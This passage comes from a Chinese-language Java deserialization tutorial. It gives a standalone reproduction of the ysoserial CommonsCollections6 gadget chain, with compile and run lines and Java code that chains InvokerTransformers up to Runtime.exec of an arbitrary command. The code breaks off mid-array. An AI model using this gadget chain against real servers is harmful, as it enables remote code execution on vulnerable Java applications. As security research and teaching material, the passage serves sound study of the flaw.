 服务端使用8u232时可以得手，不要求服务端使用8u40。

8.4.5) TiedMapEntryExecWithHashSet.java

对应"ysoserial/CommonsCollections6"，这是个单机版。

```java
*
 * javac -encoding GBK -g -cp "commons-collections-3.1.jar" TiedMapEntryExecWithHashSet.java
 * java -cp "commons-collections-3.1.jar:." TiedMapEntryExecWithHashSet "/bin/touch /tmp/scz_is_here"
 */
import java.io.*;
import java.util.*;
import java.lang.reflect.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

/*
 * 从ConcurrentHashMapExec.java修改而来
 */
public class TiedMapEntryExecWithHashSet
{
    @SuppressWarnings("unchecked")
    public static void main ( String[] argv ) throws Exception
    {
        String          cmd         = argv[0];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
```
